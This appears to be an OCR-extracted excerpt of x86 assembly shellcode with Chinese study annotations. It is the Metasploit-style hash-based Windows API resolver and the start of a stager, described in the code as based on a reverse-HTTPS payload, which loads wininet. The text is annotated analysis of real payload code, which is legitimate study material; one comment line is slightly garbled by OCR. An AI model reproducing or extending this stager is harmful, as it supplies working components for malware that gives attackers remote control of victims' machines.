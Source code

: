 		  xor edi, edi           ; Clear EDI which will store the hash of the function name
		  ; And compare it to the one we want
		loop_funcname:             ;
		  xor eax, eax           ; Clear EAX
		  lodsb                  ; Read in the next byte of the ASCII function name
		  ror edi, 13            ; Rotate right our hash value
		  add edi, eax           ; Add the next byte of the name
		  cmp al, ah             ; Compare AL (the next byte from the name) to AH (null)
		  jne loop_funcname      ; If we have not reached the null terminator, continue 【串接获得完整function name哈希】
		  add edi, [ebp-8]       ; Add the current module hash to the function hash
		  cmp edi, [ebp+36]      ; Compare the hash to the one we are searchnig for【hash对比】
		  jnz get_next_func      ; Go compute the next function hash if we have not found it
		  ; If found, fix up stack, call the function and then value else compute the next one...
		  pop eax                ; Restore the current modules EAT
		  mov ebx, [eax+36]      ; Get the ordinal table rva
		  add ebx, edx           ; Add the modules base address
		  mov cx, [ebx+2*ecx]    ; Get the desired functions ordinal
		  mov ebx, [eax+28]      ; Get the function addresses table rva
		  add ebx, edx           ; Add the modules base address
		  mov eax, [ebx+4*ecx]   ; Get the desired functions RVA
		  add eax, edx           ; Add the modules base address to get the functions actual VA 【获得API真实地址】
		  ; We now fix up the stack and perform the call to the desired function...
		finish:
		  mov [esp+36], eax      ; Overwrite the old EAX value with the desired api address for the upcoming popad 【重写EAX】
		  pop ebx                ; Clear off the current modules hash
		  pop ebx                ; Clear off the current position in the module list
		  popad                  ; Restore all of the callers registers, bar EAX, ECX and EDX which are clobbered
		  pop ecx                ; Pop off the origional return address our caller will have pushed
		  pop edx                ; Pop off the hash value our caller will have pushed
		  push ecx               ; Push back the correct return value
		  jmp eax                ; Jump into the required function
		  ; We now automagically return to the correct caller...
		get_next_mod:              ;
		  pop eax                ; Pop off the current (now the previous) modules EAT【！！！】
		get_next_mod1:             ;
		  pop edi                ; Pop off the current (now ′07 previous) modules hash
		  pop edx                ; Restore our position in the module list
		  mov edx, [edx]         ; Get the next module
		  jmp.i8 next_mod        ; Process this module
		
		; actual routine
		start:
		  pop ebp                ; get ptr to block_api routine
		; based on HDM's block_reverse_https.asm
		load_wininet:
		  push 0x0074656e        ; Push the bytes 'wininet',0 onto the stack.【要使用的dll】
		  push 0x696e6977        ; ...
		  mov esi, esp           ; Save a pointer to wininet
		  push esp               ; Push a pointer to the "wininet" string on the stack.
		  push 0x0726774C        ; hash( "kernel32.dll", "LoadLibraryA" )【利用LoadLibraryA加载对应API函数】
		  call ebp               ; LoadLibraryA( "wininet" )
		